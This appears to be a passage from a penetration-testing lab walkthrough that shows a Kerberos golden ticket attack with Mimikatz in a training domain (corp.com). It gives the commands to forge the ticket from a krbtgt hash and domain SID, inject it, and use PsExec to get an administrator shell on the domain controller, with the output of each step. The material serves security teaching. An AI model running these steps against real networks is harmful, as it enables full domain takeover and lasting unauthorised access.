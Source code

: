 mimikatz # privilege::debug
mimikatz # kerberos::purge

# Now, we'll supply the domain SID (which we can gather with whoami /user) to the Mimikatz kerberos::golden command to create the golden ticket.

# This time, we'll use the /krbtgt option instead of /rc4 to indicate we are supplying the password hash of the krbtgt user account. Starting July 2022, Microsoft improved the authentication process, so we'll need to provide an existing account. Let's set the golden ticket's username to jen. Before it didn't matter if the account existed.

mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
...
User Id   : 500
Groups Id : *513 512 520 518 519
-> Ticket : ** Pass The Ticket **
Golden ticket for 'jen @ corp.com' successfully submitted for current session
...
mimikatz # misc::cmd

# Mimikatz provides two sets of default values when using the golden ticket option: the user ID and the groups ID. The user ID is set to 500 by default, which is the RID of the built-in administrator for the domain. The values for the groups ID consist of the most privileged groups in Active Directory, including the Domain Admins group. With the golden ticket injected into memory, let's use PsExec_ to launch a new command prompt with misc::cmd.

C:\Tools\SysinternalsSuite>.\PsExec.exe \\dc1 cmd.exe
C:\Windows\system32>hostname
DC1

# We now have an interactive command prompt on the domain controller. Now let's use the whoami command to verify that our user jen is now part of the Domain Admin group.
C:\Windows\system32>whoami /groups
...
p, Enabled by default, Enabled group
CORP\Domain Admins 
...

# If we were to connect PsExec to the IP address of the domain controller instead of the hostname, we would instead force the use of NTLM authentication and access would still be blocked.
C:\Tools\SysinternalsSuite> psexec.exe \\192.168.50.70 cmd.exe
...
Couldn't access 192.168.50.70:
Access is denied.
...

